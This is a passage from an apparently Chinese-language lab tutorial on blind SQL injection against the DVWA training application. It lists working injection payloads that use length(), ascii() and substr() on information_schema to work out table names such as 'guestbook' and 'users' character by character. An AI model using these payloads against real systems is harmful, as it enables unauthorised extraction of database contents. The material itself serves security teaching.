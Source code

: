   - 猜解表名的长度：1' and length(substr((select table_name from information_schema.tables where table_schema='dvwa' limit 0,1),1))=9 #   //猜解第一个表名的长度为9

  <img src="img\sql-blind5.jpg" alt="sql-blind5" style="zoom:67%;" />

  - 确定表的名称（guestbook，users）

  - 1’ and ascii(substr((select table_name from information_schema.tables where table_schema=’dvwa’ limit 0,1),1))=103 #   //g

  <img src="img\sql-blind6.jpg" alt="sql-blind6" style="zoom:67%;" />

  - 1’ and ascii(substr((select table_name from information_schema.tables where table_schema=’dvwa’ limit 1,1),1))=117 #   //u

